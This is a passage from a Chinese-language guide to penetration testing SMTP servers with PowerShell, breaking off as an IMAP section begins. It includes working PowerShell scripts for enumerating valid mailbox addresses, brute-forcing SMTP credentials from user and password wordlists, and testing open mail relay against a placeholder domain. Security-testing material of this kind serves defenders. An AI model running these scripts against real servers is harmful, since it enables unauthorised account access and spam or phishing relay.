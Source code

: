 ```
 $email_addresses = "use r1@snowcap cyber.com", "use r2@snowcap cyber.com", "use r3@snowcap cyber.com"
$valid_addresses = @()
foreach ($address in $email_addresses) {
    $result = Send-MailMessage -To $address -From "attacker@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com -ErrorAction SilentlyContinue
    if ($result -eq $null) {
        $valid_addresses += $address
    }
}
Write-Host "Valid Email Addresses: $($valid_addresses -join ', ')"
```

### 暴力破解攻击

PowerShell 可以通过反复尝试使用不同的用户名和密码组合登录 SMTP 账户，自动化暴力破解攻击。`Send-MailMessage` cmdlet 可以与不同的凭证一起使用来执行此操作：

```
 $passwords = Get-Content "passwords.txt"
$users = Get-Content "users.txt"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        Send-MailMessage -To "use r@snowcap cyber.com" -From $user -SmtpServer mail.snowcapcyber.com -Credential (New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString -String $password -AsPlainText -Force)))
    }
}
```

此脚本尝试使用不同的用户名和密码组合发送电子邮件，可能会获得未经授权的访问。

### 邮件中继滥用

如果 SMTP 服务器配置错误或不安全，攻击者可以利用其进行未经授权的电子邮件中继，用于向外部收件人发送垃圾邮件或钓鱼邮件。PowerShell 可以自动化此过程，模拟电子邮件中继攻击：

```
 Send-MailMessage -To "extern al@snowcap cyber.com" -From "user@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com
```

如果 SMTP 服务器允许未经授权的中继，则此电子邮件将成功发送到外部收件人。

总之，PowerShell 可以成为渗透测试 SMTP 服务器的强大工具，帮助识别电子邮件基础设施中的漏洞。然而，必须负责任、合乎道德地进行此项任务，并且需要获得适当的授权。目标是提升 SMTP 服务器的安全性和韧性，防范基于电子邮件的威胁，确保电子邮件服务的机密性、完整性和可用性。

# PowerShell 与 IMAP

对 IMAP 服务器执行漏洞测试是确保电子邮件基础设施安全的重要任务。PowerShell，微软开发的强大脚本语言和自动化框架，可以成为这一任务的重要工具。在本指南中，我们将探讨如何使用 PowerShell 评估 IMAP 服务器的安全性。我们将涵盖基本概念和命令，并提供详细的示例，帮助您进行全面的漏洞测试。

## IMAP 服务器漏洞

在我们深入使用 PowerShell 测试 IMAP 服务器漏洞之前，了解恶意攻击者可以利用的常见漏洞至关重要：
